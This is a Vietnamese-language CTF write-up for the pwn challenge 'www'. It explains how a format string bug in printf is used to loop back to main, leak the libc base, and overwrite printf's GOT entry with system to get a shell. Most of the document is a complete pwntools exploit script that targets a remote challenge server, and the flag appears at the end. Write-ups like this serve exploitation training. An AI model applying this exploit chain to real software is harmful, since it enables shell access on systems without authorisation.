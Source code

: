 ## [pwn 188] www 

Có thể dùng lỗi format string tại `printf(name)`. Độ dài nhập vào là 26 chỉ đủ ghi đè 1 địa chỉ nên phải tìm cách lặp main để ghi được nhiều hơn.

-> Ghi đè putchar.got thành main, sau đó chọn lựa chọn nào mà gọi putchar được để về main

Tiếp theo mở GDB lên xem có leak được địa chỉ nào hữu dụng không

![](https://i.imgur.com/E5TnYlF.png)

Nhận thấy param 1 của `printf` là địa chỉ của stdin(`_IO_2_1_stdin_`) (calling convention của các hàm dùng format string trong x64 -> [đây](https://nixhacker.com/case-of-format-string-in-64-bit-is-it-still-critical/#:~:text=Linux%3A%20RDI%2C%20RSI%2C%20RDX%2C%20RCX%2C%20R8%2C%20%C2%A0R9%2C%20remaining%20from%20the%20stack)) 

-> Tìm đúng version libc (`strings chall | grep GCC` để lấy phiên bản ubuntu rồi lấy libc trên container về) là leak được libc base 

Cuối cùng gọi `system('/bin/sh')` bằng cách:

- Overwrite printf.got thành system, chỉ cần ghi đè 2 byte vì `printf` và `system` có cùng LSB (byte đầu) (rất may vì nếu phải ghi 3 byte thì vượt quá 26 ký tự mà ghi 2 lần thì không được) 
- Tại `fgets` nhập '/bin/sh', `printf(name)` trở thành thành `system('/bin/sh')`

### script

```python
#!/usr/bin/env python3
from pwn import *

exe = './chall'
script = '''
b *0x40154A
b* 0x40160a
b* 0x40139d
set follow-fork-mode parent
c
'''
if args.LOCAL:
    p = process(exe)
elif args.GDB:
    p = process(exe)
    gdb.attach(p, gdbscript=script)
else:
    p = remote('103.245.250.31', 32183)
elf = ELF(exe)
libc = ELF('./libc-2.31.so')

main = 0x40146F
system = 0x404038
printf = 0x404040 
putchar = 0x404018
# binsh = 0x2f62 696e 2f73 6800

# putchar.got -> main
payload = b'%5231c%12$hnaaaa' + p64(putchar)
p.sendlineafter(b'name?\n', payload)
p.recvuntil(b'Adele\n')
p.send(b'b')

# leak libc base
p.sendlineafter(b'name?\n', b'%p')
libc_base = int(p.recvline(), 16) - libc.sym._IO_2_1_stdin_ - 131
log.info('libc base leak ' + hex(libc_base))
p.recvuntil(b'Adele\n')
p.send(b'b')

# printf.got -> system
system = libc.sym.system + libc_base
system = (system & 0xffff00)>>8

payload = b'%' + str(system).encode() + b'c%12$hn'
payload += b'a'*(16-len(payload))
payload += p64(printf+1)

# system('/bin/sh')
print(payload)
p.sendlineafter(b'name?\n', payload)
p.recvuntil(b'Adele\n')
p.send(b'b')
p.sendline(b'/bin/sh\x00')

p.interactive()

# HCMUSCTF{0n3_g4dg3t_js_n0t_tk3_s0lutj0n_t0_4ll_pr0bl3ms}
```
